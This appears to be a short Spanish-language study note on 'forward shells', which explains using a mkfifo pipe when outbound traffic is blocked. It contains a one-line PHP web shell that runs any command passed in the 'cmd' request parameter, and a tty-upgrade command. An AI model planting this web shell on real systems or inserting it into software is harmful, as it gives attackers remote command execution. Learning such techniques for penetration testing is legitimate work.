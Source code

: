 # Forward shell

***

* Tags: #bash #shells #exploiting #hacking

***

## Definición

> Puede darse el caso de que la máquina comprometida haga uso de un firewall, bloqueando el tráfico saliente, de manera que no se pueda establecer conexión ni con una \[\[Reverse shell]] ni con una \[\[Bind shell]].

***

## Uso

> Se consigue a través del uso de **mkfifo**, creando un archivo **FIFO** que se utiliza como consola simulada interactiva a través de la cual el atacante puede operar en la máquina comprometida. En vez de ser una conexión directa, el atacante redirige el tráfico a través del archivo FIFO, permitiendo la comunicación con la máquina comprometida.

Para hacer uso de esta \[\[Shell]], utilizaremos un script de **s4vitar** para obtener una **tty** interactiva. Para ello es necesario subir a la máquina comprometida el siguiente archivo en php:

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```

Posteriormente hay que retocar un poco el script, y ejecutándolo, una especie de \[\[Reverse shell]], aunque haría falta el uso del siguiente comando para conseguir realmente una **tty**:

```bash
script /dev/null -c bash
```

***

## Referencias
